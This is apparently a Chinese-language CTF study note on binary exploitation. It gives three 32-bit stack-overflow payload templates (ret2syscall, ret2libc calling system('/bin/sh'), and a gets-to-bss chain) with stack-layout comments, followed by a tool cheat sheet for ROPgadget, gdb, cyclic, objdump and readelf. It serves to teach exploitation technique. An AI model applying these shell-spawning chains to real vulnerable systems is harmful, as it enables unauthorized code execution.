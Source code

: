 ![](https://0314valen.github.io/images/img/pwnstudy/2.jpg)

上图说明：

```
payload= b'a'*112+p32(pop_eax)+p32(0xb)+p32(pop_else)+p32(0)+p32(0)+p32(bin_sh_add)+p32(int_addr)
#填满栈空间+返回地址+0xb会被放入eax中+返回地址+0会被放到edx+0会被放到ecx+bin/sh放到ebx+int 80中断
#填满栈空间，返回地址，0xb会被放入eax中，返回地址，0会被放到edx，0会被放到ecx，bin/sh放到ebx，int 80中断
```

```
payload= b'a'*112+p32(sys_addr)+p32(0x1234)+p32(bin_sh)
#栈空间112，返回地址system，system返回地址可以任意，\bin\sh的地址
```

![](https://0314valen.github.io/images/img/pwnstudy/3.jpg)

```
payload=b'a'*112+p32(get_addr)+p32(sys_addr)+p32(bss_addr)+p32(bss_addr)
#栈空间，返回地址，get返回地址，get写入的地方，任意地址即可
							sys返回地址，sys参数
```



## 工具大概用法

```
cat
	查看execve的系统调用号：cat /usr/include/asm/unistd_32.h | grep execve
	
ROPgadget
	使用ROPgadget搜索操作寄存器的函数地址：ROPgadget --binary level2_x64 --only "pop|ret"
	寻找控制eax的gadgets：ROPgadget --binary ret2syscall --only "pop|ret" |grep 'eax'
	寻找控制寄存器的地址：ROPgadget --binary ret2syscall --only "pop|ret" |grep 'eax'|grep 'ebx'
	获得/bin/sh字符串对应的地址：ROPgadget --binary rop  --string '/bin/sh' 
	获得int 0x80的地址：ROPgadget --binary rop --only 'int'

gdb：
	加载程序：gdb ./程序名称
	运行程序：r、run
	下断点：b *地址、b *$rebase(0x933)、b 函数名称、break 函数名称
	获取函数在内存中的位置：print 函数名称、p 函数名称、p system
	查找字符串：find '/bin/sh'
	查看断点信息：info b或者info break
	删除断点：delete 序号
	单步调试：ni
	下一步：n
	跳出函数：fini
	查看栈的状态：stack 数字、stack 40
	gdb调试转储：gdb level1 core
	查看地址里面的信息：x/x $寄存器名称
	
cyclic:
	生成若干数量的字符：cyclic 150 
	转码：cyclic -l 0x62616164
	
objdump:
	查看反汇编代码：objdump -d 文件名

readelf:
	查看文件中重定向信息：readelf -r 文件名
```
